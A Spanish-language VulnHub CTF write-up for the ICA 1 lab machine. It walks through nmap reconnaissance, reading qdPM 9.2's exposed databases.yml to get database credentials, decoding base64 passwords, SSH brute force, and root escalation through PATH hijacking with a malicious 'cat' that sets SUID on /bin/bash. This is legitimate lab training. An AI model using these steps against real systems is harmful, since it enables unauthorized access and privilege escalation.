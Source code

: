 ```yaml
---
layout: single
title: ICA 1 - VulnHub Writeup
excerpt: "Nuestro objetivo es descubrir de que se trata el proyecto secreto ICA."
date: 2022-10-27
classes: wide
header:
  teaser: /assets/images/ICA/logo.png
  teaser_home_page: true
categories:
  - Tecnicas
tags:
  - Pivoting
  - Bash
  - Herramientas
---
```


<p align="center">
<img src="/assets/images/ICA/logo.png" width="400">
</p>

# ICA: 1 Writeup by notlucken

## Reconocimiento de Servicios expuestos

Primero como siempre, tiro de nmap, con los argumentos ``nmap -p- --open -sS --min-rate 5000 -Pn -n 192.168.100.116`` y luego a los puertos abiertos les aplico un ``nmap -p22,80,3306,33060 -sCV 192.168.100.116``. Este es el resultado del segundo escaneo:

```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 0e:77:d9:cb:f8:05:41:b9:e4:45:71:c1:01:ac:da:93 (RSA)
|   256 40:51:93:4b:f8:37:85:fd:a5:f4:d7:27:41:6c:a0:a5 (ECDSA)
|_  256 09:85:60:c5:35:c1:4d:83:76:93:fb:c7:f0:cd:7b:8e (ED25519)
80/tcp    open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: qdPM | Login
|_http-server-header: Apache/2.4.48 (Debian)
3306/tcp  open  mysql   MySQL 8.0.26
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.26
|   Thread ID: 43
|   Capabilities flags: 65535
|   Some Capabilities: Speaks41ProtocolOld, SupportsTransactions, IgnoreSigpipes, Support41Auth, FoundRows, SupportsLoadDataLocal, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, LongColumnFlag, SwitchToSSLAfterHandshake, ODBCClient, LongPassword, InteractiveClient, SupportsCompression, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: C-1\x037x\x0C&f\x7FBS6(nz\x1B6\x0D,
|_  Auth Plugin Name: caching_sha2_password
| ssl-cert: Subject: commonName=MySQL_Server_8.0.26_Auto_Generated_Server_Certificate
| Not valid before: 2021-09-25T10:47:29
|_Not valid after:  2031-09-23T10:47:29
|_ssl-date: TLS randomness does not represent time
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
  31   │ |     Invalid message"
  32   │ |     HY000
  33   │ |   LDAPBindReq: 
  34   │ |     *Parse error unserializing protobuf message"
  35   │ |     HY000
  36   │ |   oracle-tns: 
  37   │ |     Invalid message-frame."
  38   │ |_    HY000
  39   │ 1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
  40   │ SF-Port33060-TCP:V=7.92%I=7%D=10/27%Time=635B068E%P=x86_64-pc-linux-gnu%r(
  41   │ SF:NULL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x0b
  42   │ SF:\x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTTPO
  43   │ SF:ptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\x0
  44   │ SF:b\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSVer
  45   │ SF:sionBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,
  46   │ SF:2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0f
  47   │ SF:Invalid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0"
  48   │ SF:)%r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x0
  49   │ SF:1\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCooki
  50   │ SF:e,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\
  51   │ SF:x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\
  52   │ SF:"\x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,
  53   │ SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05
  54   │ SF:\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY
  55   │ SF:000")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString
  56   │ SF:,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x
  57   │ SF:08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"
  58   │ SF:\x05HY000")%r(LDAPBindReq,46,"\x05\0\0\0\x0b\x08\x05\x1a\x009\0\0\0\x01
  59   │ SF:\x08\x01\x10\x88'\x1a\*Parse\x20error\x20unserializing\x20protobuf\x20m
  60   │ SF:essage\"\x05HY000")%r(SIPOptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LA
  61   │ SF:NDesk-RC,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TerminalServer,9,"\x05\0\0
  62   │ SF:\0\x0b\x08\x05\x1a\0")%r(NCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesR
  63   │ SF:PC,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\
  64   │ SF:x0fInvalid\x20message\"\x05HY000")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\
  65   │ SF:x1a\0")%r(WMSRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(oracle-tns,32,
  66   │ SF:"\x05\0\0\0\x0b\x08\x05\x1a\0%\0\0\0\x01\x08\x01\x10\x88'\x1a\x16Invali
  67   │ SF:d\x20message-frame\.\"\x05HY000")%r(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\
  68   │ SF:x1a\0")%r(afp,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x1
  69   │ SF:0\x88'\x1a\x0fInvalid\x20message\"\x05HY000");
  70   │ Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  71   │ 
  72   │ Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  73   │ # Nmap done at Thu Oct 27 19:30:46 2022 -- 1 IP address (1 host up) scanned in 14.48 seconds
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
![](/assets/images/ICA/Web.png)

Vemos que hay un Login Form de algo llamado qdPM. Hice un poco de busqueda en Internet y resulta ser un gestor de proyectos (un GitHub barato), y lo que me llamo la atencion es que dice su version ahi abajo, la 9.2

Decidi buscarla en SearchSploit a ver que salia, y:

```bash
❯ searchsploit qdpm 9.2
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
qdPM 9.2 - Cross-site Request Forgery (CSRF)                                                                                                          | php/webapps/50854.txt
qdPM 9.2 - Password Exposure (Unauthenticated)                                                                                                        | php/webapps/50176.txt
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Password Exposure? Veamos que dice:

```bash
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: 50176.txt
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Exploit Title: qdPM 9.2 - DB Connection String and Password Exposure (Unauthenticated)
   2   │ # Date: 03/08/2021
   3   │ # Exploit Author: Leon Trappett (thepcn3rd)
   4   │ # Vendor Homepage: https://qdpm.net/
   5   │ # Software Link: https://sourceforge.net/projects/qdpm/files/latest/download
   6   │ # Version: 9.2
   7   │ # Tested on: Ubuntu 20.04 Apache2 Server running PHP 7.4
   8   │ 
   9   │ The password and connection string for the database are stored in a yml file. To access the yml file you can go to http://<website>/core/config/databases.yml file and download
       │ .
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Raro. Vamos a probar como dice ahi, en ``http://192.168.100.116/core/config/databases.yml``

![](/assets/images/ICA/Descarga.png)

![](/assets/images/ICA/Contrasena.png)

Tenemos un user y password, probe por SSH, pero no se pudo. Como los puertos de MySQL estan abiertos, intentare conectarme por ahi para ver que hay:

![](/assets/images/ICA/mysql.png)

![](/assets/images/ICA/users.png)

![](/assets/images/ICA/passwds.png)

Las passwords estan en base64 , lo que podriamos hacer es hacer un ciclo for y mientras las vaya decodificando, las vaya guardando en un archivo que se llamara passwds:

## Ganando Acceso al Sistema

```bash
for passwd in WDdNUWtQM1cyOWZld0hkQw== c3VSSkFkR3dMcDhkeTNyRg== N1p3VjRxdGc0MmNtVVhHWA== REpjZVZ5OThXMjhZN3dMZw== Y3FObkJXQ0J5UzJEdUpTeQ==;do echo $passwd | base64 -d; echo; done | tee passwds

```

![](/assets/images/ICA/passwordsssh.png)


Bueno, como tenemos un listado de users & passwords, no se me ocurre otra cosa que hacer un ataque de fuerza bruta por ssh, ya que ese puerto esta abierto:

![](/assets/images/ICA/travis.png)

Tenemos la password de Travis. Ahora hay que ver la forma de escalar privilegios.

## Escalar Privilegios

Como ya tenemos acceso a la maquina, ahora solo nos queda escalar privilegios.

![](/assets/images/ICA/privEsc1.png)

Como Travis no puede ejecutar Sudo, me fije en los binarios SUID y uno particularmente me llamo la atencion, estoy hablando de ``/opt/get_access``

Como es un binario ejecutable, voy a tirar de ``strings /opt/get_access | less`` para poder listar los caracteres legibles

![](/assets/images/ICA/cat.png)

El binario esta ejecutando cat (no esta ejecutando ``/usr/bin/cat``) asi que como el que lo esta ejecuntando es root, podriamos hacer un PATH Hijacking de cat, para asignarnos permisos de Superusuario a la Bash

![](/assets/images/ICA/privEsc2.png)

Hicimos nuestro PATH Hijacking y con nuestro cat malicioso (``chmod u+s /bin/bash``) logramos escalar privilegios correctamente!




